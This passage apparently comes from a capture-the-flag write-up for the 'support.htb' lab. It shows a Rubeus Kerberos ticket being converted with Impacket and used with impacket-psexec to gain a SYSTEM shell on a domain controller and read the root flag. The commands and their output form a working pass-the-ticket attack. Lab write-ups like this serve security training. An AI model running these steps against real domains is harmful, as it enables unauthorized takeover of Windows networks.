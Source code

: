 ## Remote Approach

Grab the last ticket Rubeus generated, and copy it back to kali machine, saving it as `ticket.kirbi.b64`, making sure to remove all spaces. I’ll base64 decode it into ticket.kirbi:

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
```

Convert it to a format that Impact can use:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py ticket.kirbi ticket.ccache
[sudo] password for kali: 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done
```

Use this to get a shell using psexec and get root flag

```bash
sudo KRB5CCNAME=ticket.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file dpaufTVb.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service oOsL on dc.support.htb.....
[*] Starting service oOsL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 955A-5CBB

 Directory of C:\Users\Administrator\Desktop

05/28/2022  04:17 AM    <DIR>          .
05/28/2022  04:11 AM    <DIR>          ..
06/09/2024  06:26 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,974,184,960 bytes free
```

# Resources
